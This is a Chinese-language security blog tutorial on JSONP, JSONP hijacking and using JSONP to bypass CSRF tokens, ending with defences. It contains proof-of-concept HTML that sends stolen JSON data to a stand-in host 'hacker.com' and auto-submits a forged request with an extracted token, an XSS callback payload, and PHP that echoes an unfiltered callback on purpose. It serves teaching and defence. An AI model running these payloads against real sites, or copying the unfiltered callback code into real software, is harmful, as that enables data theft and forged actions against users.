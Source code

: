 # jsonp介绍及其安全风险




## 简介

JSONP全称是`JSON with Padding` ，是基于JSON格式的为解决跨域请求资源而产生的解决方案。**他实现的基本原理是利用了HTML里script元素标签没有跨域限制**

**JSONP原理：**就是动态插入带有跨域url的script标签，然后调用回调函数，把我们需要的json数据作为参数传入，通过一些逻辑把数据显示在页面上。



比如通过script访问`http://www.test.com/index.html?jsonpcallback=callback`, 执行完script后，会调用callback函数，参数就是获取到的数据。

原理简介的例子：新建`callback.php`

```php
<?php
    header('Content-type: application/json');
    $callback = $_GET["callback"];
    //json数据
    $json_data = '{"user":"user1111","password":"12345678"}';
    //输出jsonp格式的数据
    echo $callback . "(" . $json_data . ")";
?>

```

新建`test.html`

```html
<!-- test.html -->

<html>
<head>
<title>Test</title>
<meta charset="utf-8">

<script type="text/javascript">
	function fun(obj){
		alert(obj["password"]);
	}
</script>
</head>

<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=fun"></script>
</body>
</html>

```

访问test.html，页面会执行script，请求`http://127.0.0.1/callback.php?callback=fun`，然后将请求的内容作为参数，执行fun函数，fun函数将请求的内容alert出来。这样我们就实现了通过js操作跨域请求到的资源，绕过了同源策略。

![alert](http://image.geoer.cn/img/image-20220112223611220.png)





## JSONP劫持

> JSONP劫持类似于CSRF漏洞

JSONP使用不当也会造成很多安全问题。

对于JSONP传输数据，正常的业务是用户在B域名下请求A域名下的数据，然后进行进一步操作。

但是对A域名的请求一般都需要身份验证，Hacker可以自己构造一个页面，诱惑用户去点击（在这个页面里，我们去请求A域名资源，然后回调函数将请求到的资源发回到hacker服务器上），以此来获取这些信息。



![jsonp漏洞用过程](http://image.geoer.cn/img/image-20220112223806037.png)



POC如：test.html

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
<script type="text/javascript">
    function fun(obj){
        var myForm = document.createElement("form");
        myForm.action="http://hacker.com/redirect.php";
        myForm.method = "GET";  
        for ( var k in obj) {  
            var myInput = document.createElement("input");  
            myInput.setAttribute("name", k);  
            myInput.setAttribute("value", obj[k]);  
            myForm.appendChild(myInput);  
        }  
        document.body.appendChild(myForm);  
        myForm.submit();  
        document.body.removeChild(myForm);
    }
</script>
</head>
<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=fun"></script>
</body>
</html>

```

诱导用户去访问此html，会以用户的身份访问`http://localhost/callback.php?callback=fun`,拿到敏感数据，然后执行fun函数，将数据发送给`http://hacker.com/redirect.php`。

然后hacker只需要在redirect.php里，将数据保存下来，然后重定向到baidu.com，堪称一次完美的JSONP劫持。



## 利用JSONP绕过token防护进行csrf攻击

场景假设：服务端判断接收到的请求包，如果含有callback参数就返回JSONP格式的数据，否则返回正常页面。代码如下：test.php

```php
<!-- callback.php -->

<?php
    header('Content-type: application/json');
    //json数据
    $json_data = '{"customername1":"user1","password":"12345678"}';
    if(isset($_GET["callback"])){
        $callback = $_GET["callback"];
        //如果含有callback参数，输出jsonp格式的数据
        echo $callback . "(" . $json_data . ")";
    }else{
        echo $json_data;
    }
?>
```

对于场景，如果存在JSONP劫持劫持，我们就可以获取到页面中的内容，提取出csrf_token，然后提交表单，造成csrf漏洞。示例利用代码如下：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
</head>
<body>
<div id="test"></div>
<script type="text/javascript">
function test(obj){
    // 获取对象中的属性值
    var content = obj['html']
    // 正则匹配出参数值
    var token=content.match('token = "(.*?)"')[1];
    // 添加表单节点
    var parent=document.getElementById("test");
    var child=document.createElement("form");
    child.method="POST";
    child.action="http://vuln.com/del.html";
    child.id="test1"
    parent.appendChild(child);
    var parent_1=document.getElementById("test1");
    var child_1=document.createElement("input");
    child_1.type="hidden";child_1.name="token";child_1.value=token;
    var child_2=document.createElement("input");
    child_2.type="submit";
    parent_1.appendChild(child_1);
    parent_1.appendChild(child_2);
}
</script>
<script type="text/javascript" src="http://vuln.com/caozuo.html?htmlcallback=test"></script>
</body>
</html>
```

htmlcallback返回一个对象obj，以该对象作为参数传入test函数，操作对象中属性名为html的值，正则匹配出token，再加入表单，自动提交表单完成操作，用户点击该攻击页面即收到csrf攻击。





## JSONP劫持挖掘

首先需要尽可能的找到所有的接口，尤其是返回数据格式是JSONP的接口。(可以在数据包中检索关键词callback json jsonp email等，也可以加上callback参数，观察返回值是否变化)。

找到接口之后，还需要返回值包含敏感信息，并且能被不同的域的页面去请求获取(也就是是否存在refer限制,实际上，如果接口存在refer的限制，也是有可能被绕过的)





## 防御

- 限制来源refer
- 按照JSON格式标准输出（设置Content-Type : application/json; charset=utf-8），预防`http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>`形式的xss
- 过滤callback函数名以及JSON数据输出，预防xss





## 参考文章

[jsonp介绍及其安全风险 - SAUCERMAN (saucer-man.com)](https://saucer-man.com/information_security/309.html#) 还是这位大佬写得好，小弟基本全是看的他的

[JSONP 劫持原理与挖掘方法 | K0rz3n's Blog](https://www.k0rz3n.com/2019/03/07/JSONP 劫持原理与挖掘方法/)

[JSONP绕过CSRF防护token - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/5143)

[分享一个jsonp劫持造成的新浪某社区CSRF蠕虫 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/HTML/sina-jsonp-hijacking-csrf-worm.html#)

[JSONP 安全攻防技术 - 知道创宇 (knownsec.com)](https://blog.knownsec.com/2015/03/jsonp_security_technic/)







---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/jsonp%E4%BB%8B%E7%BB%8D%E5%8F%8A%E5%85%B6%E5%AE%89%E5%85%A8%E9%A3%8E%E9%99%A9/  

